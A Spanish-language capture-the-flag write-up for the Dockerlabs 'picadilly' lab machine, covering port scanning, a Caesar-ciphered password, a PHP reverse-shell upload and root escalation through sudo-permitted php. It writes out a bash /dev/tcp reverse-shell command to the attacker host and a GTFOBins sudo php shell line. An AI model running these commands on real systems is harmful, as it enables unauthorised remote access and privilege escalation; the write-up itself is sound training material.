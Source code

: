 Desplegamos la máquina vulnerable poniendo en la terminal la línea de comandos **bash auto_deploy.sh picadilly.tar** en la carpeta donde se encuentre el contenido extraído del zip.<br>
<ins>La dirección IP de la máquina a vulnerar siempre es la 172.17.0.2</ins>.

  ![image](https://github.com/user-attachments/assets/4fc708f6-52c0-4b72-bfdb-ceb54a13b974)

Ahora, realizamos un escaneo de puertos de la máquina para revisar los puertos abiertos existentes y los posibles servicios a atacar mediante el uso de esos puertos.

  ![image](https://github.com/user-attachments/assets/1848f869-e579-4b05-a408-f0016fda72f0)

Podemos ver que se encuentran abiertos los puertos ***80*** y ***443***, correspondientes a los servicios ***HTTP*** y ***HTTPS***, respectivamente.

Nos dirigimos al navegador y en el buscador ponemos http://172.17.0.2:80.

  ![image](https://github.com/user-attachments/assets/19cd9d8c-2ce2-48e1-bf19-11f1ae5ef6ca)

Aparece un único archivo de texto llamado "**backup.txt**". Lo abrimos para ver su contenido:

  ![image](https://github.com/user-attachments/assets/dd609a1a-9ce1-41b8-9e2d-835f4f947e76)

Se nos muestra lo que parece ser un posible usuario del sistema (denominado "**mateo**") con una contraseña encriptada. A simple vista, no sabemos el lenguaje de encriptación que se ha empleado para la contraseña; pero si nos percatamos en la pista que se nos da, podemos saber que se trata del **Cifrado César**, por lo que ahora podemos decodear la clave.

Vamos a esta página de [Dcode.fr](https://www.dcode.fr/cifrado-cesar) y desciframos la contraseña:

  ![image](https://github.com/user-attachments/assets/3a30025a-6e89-461b-903f-2da3f9679db2)

La contraseña del usuario "mateo" parece ser "**easycrxazy**".

Buscamos en el navegador https://172.17.0.2:

  ![image](https://github.com/user-attachments/assets/361129e2-f551-454a-b9ac-6bc038d1487e)

Se nos muestra una página en la que podemos subir archivos en forma de publicaciones que se verán en la página web. Sabiendo esto, podemos ejecutar un **ataque LFI** (*Local File Inclusion*), subiendo un archivo PHP que contenga el código necesario para realizar una reverse shell.

  ![image](https://github.com/user-attachments/assets/6158f886-b498-4d5c-a5da-d19ccd9696fc)

Una vez subido, nos dirigimos al subdirectorio web "**/uploads**" y arrancamos la reverse shell:

  ![image](https://github.com/user-attachments/assets/66cc4112-4a36-4014-94ab-096264176e6d)

Nos ponemos con NetCat en escucha  por el puerto 443:

  ![image](https://github.com/user-attachments/assets/d7ed68d9-0802-42b3-8126-83d9a576b360)

  ![image](https://github.com/user-attachments/assets/088e4849-6e24-4d9b-b2e7-15c03ead370d)

Ahora escribimos en la terminal **bash -c "bash -i >& /dev/tcp/172.17.0.1/443 0>&1"** para evitar que se nos cierre la sesión remota.

  ![image](https://github.com/user-attachments/assets/4c058228-cf0f-4a2b-a8a8-a3986e0bda67)

  ![image](https://github.com/user-attachments/assets/a3058931-03d9-476e-9c2d-98f2c1af319c)

Hemos accedido a la máquina víctima como el usuario *www-data*.

Luego, vamos a intentar acceder con las claves obtenidas al principio del laboratorio (***usuario: mateo, contraseña: easycrxazy***).

  ![image](https://github.com/user-attachments/assets/9ffa004c-0795-4b41-a4fb-465d2b9d7e1a)

Al ingresar las claves, desgraciadamente no conseguimos acceder a la terminal como este usuario. Probamos a eliminar la letra "x" siendo la contraseña ahora "**easycrazy**".

  ![image](https://github.com/user-attachments/assets/3a105af1-52e1-4e53-9e89-4f7de6cd6af8)

Ha funcionado, por lo que ahora somos el usuario "mateo".

Miramos con el comando **sudo -l** los archivos binarios que puede ejecutar el usuario actual de manera privilegiada.

  ![image](https://github.com/user-attachments/assets/0fbc1bff-61a7-45c3-9730-219feb908308)

El usuario puede ejecutar el binario /usr/bin/php como usuario root, sin necesidad de insertar su contraseña en la CLI.

Buscamos en [GTFOBins](https://gtfobins.github.io/) acerca del binario ***/usr/bin/php***.

  ![image](https://github.com/user-attachments/assets/fcd429c5-5897-4e17-8f67-c4bc669166cb)

**CMD="/bin/sh"<br>
sudo php -r "system('$CMD');"**

  ![image](https://github.com/user-attachments/assets/d8cc9951-70e1-4c1a-ab84-460ad0fb3850)

  ![image](https://github.com/user-attachments/assets/357c870d-d73a-4362-bd25-2eff328ed62e)

Finalmente, hemos conseguido acceder al sistema como el usuario root, por lo que ahora contamos con todos los privilegios existentes.

Una vez finalizamos con la máquina de Dockerlabs presionamos **Ctrl+C** para eliminarla.

  ![image](https://github.com/user-attachments/assets/135c993a-d599-4622-8f1e-1535c08ad8e3)

